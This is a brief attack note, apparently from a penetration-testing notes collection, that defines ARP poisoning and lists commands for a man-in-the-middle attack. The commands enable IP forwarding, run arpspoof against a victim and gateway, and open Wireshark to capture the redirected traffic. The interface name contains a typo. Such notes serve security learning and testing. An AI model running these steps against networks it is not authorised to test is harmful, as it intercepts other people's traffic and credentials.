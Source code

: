 # Address Resolution Protocol

## About

Address Resolution Protocol poisoning (ARP poisoning) is a form of attack in which an attacker 
changes the Media Access Control (MAC) address and attacks an Ethernet LAN by changing the target 
computer's ARP cache with a forged ARP request and reply packets.

## Simple ARP Spoofing

> echo 1 > /proc/sys/net/ipv4/ip_forward
> cat /proc/sys/net/ipv4/ip_forward

> arpspoof -i eht0 -t [VICTIM] -r [GATEWAY IP]

# Select the correct interface
> wireshark 